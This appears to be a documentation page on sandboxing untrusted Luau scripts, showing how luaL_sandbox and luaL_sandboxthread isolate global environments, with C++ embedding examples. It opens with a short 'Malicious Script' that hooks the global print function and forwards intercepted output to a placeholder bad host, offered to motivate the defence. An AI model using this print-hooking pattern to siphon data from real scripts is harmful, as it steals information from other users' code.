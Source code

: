 # Sandboxing

## The Problem

Consider loading untrusted Luau code. By default, all code will share the same global environment. If a malicious script decides to modify the global environment, this will affect all other scripts. Consider the following example:

```luau title="Malicious Script"
local p = _G.print
_G.print = function(...)
	-- Still log things out so it appears as if all is normal:
	p(...)

	-- Intercept all print statements and send them off somewhere:
	someHttpThing:Send("http_somewhere_bad", {...})
end
```

```luau title="Victim Script"
-- This seems to work, but the previous script has intercepted
-- the message and sent it off to some malicious website.
print("Hello!")
```

## Sandboxing State

Sandboxing creates a safer environment for potentially untrusted Luau code. When sandboxing is enabled, all libraries, built-in metatables, and globals are set to read-only. There are also some performance benefits to sandboxing, and thus it is recommended to always turn it on.

To turn on sandboxing, call `luaL_sandbox(L)` _after_ opening up libraries and _before_ loading any Luau code.

```cpp title="Sandboxing" hl_lines="4"
lua_State* L = luaL_newstate();
luaL_openlibs(L);

luaL_sandbox(L);
```

Now, if a malicous script attempts to modify the global state, an error will be thrown:

```luau title="Malicous Attempt"
-- Throws an error: "attempt to modify a readonly table" (in this case, the _G global table)
_G.print = function(...) end
```

However, we have introduced an undesired side-effect: We can now no longer create _anything_ within the global scope. Consider the following snippet of unharmful Luau:

```luau
function add(a: number, b: number)
	return a + b
end
```

This would _also_ throw the same error: `"attempt to modify a readonly table"`. In this particular example, writing `local function add(a, b)` would solve the issue. But this is enough friction to become problematic, especially for existing code. Thus, sandboxing our Luau state is not the final step. We need to do one more thing.

## Sandboxing Scripts

If we want our previous Luau code to work, we need to sandbox the _script_ thread too. We can do this with the `luaL_sandboxthread` function. This function will create a proxy to our global `_G`. This is done by creating a new table for `_G`, and then assigning a metatable which has an `__index` field pointing to the original `_G` table.

We want to do this _along_ with sandboxing our top-level state. Sandbox the Luau state with `luaL_sandbox`, and then sandbox each script execution with `luaL_sandboxthread`.

**Note:** This operation should be done per logical "script" and not for every single thread created. Doing this for every thread can lead to performance issues and also recursive depth errors, due to long `__index` chains to get back to the original `_G` table. Thus, only call `luaL_sandboxthread` for a thread that acts as the top-level state for a given script. Any threads created from this thread will also inherit this proxied global table.

```cpp title="Sandboxing Thread" hl_lines="7"
// Call run_script AFTER we have sandboxed our initial state
static int run_script(lua_State* L, const std::string& name, const std::string& bytecode) {
	// Create a thread to act as our script environment:
	lua_State* script = lua_newthread(L);

	// Sandbox it:
	luaL_sandboxthread(script);

	// Load our bytecode onto the script thread:
	int res = luau_load(script, (std::string("=") + name).c_str(), bytecode.data(), bytecode.length(), 0);

	if (res != 0) {
		// ...handle error
		return res;
	}

	// Run the script:
	int status = lua_resume(script, nullptr, 0);
	if (status != LUA_OK) {
		// ...handle error status or yield status
	}

	// Pop script thread off of 'L'
	lua_pop(L, 1);
}

static void example() {
	lua_State* L = luaL_newstate();
	luaL_openlibs(L);
	luaL_sandbox(L);

	std::string bytecode = compile_script(some_sourcecode);
	run_script(L, "example", bytecode);

	lua_close(L);
}
```

With this example, we can run multiple different scripts with `run_script`. Each script could modify their own global environment without affecting the global environment of other scripts. In other words, their environment has been sandboxed!

For more information, visit the official [Luau page about sandboxing](https://luau.org/sandbox).
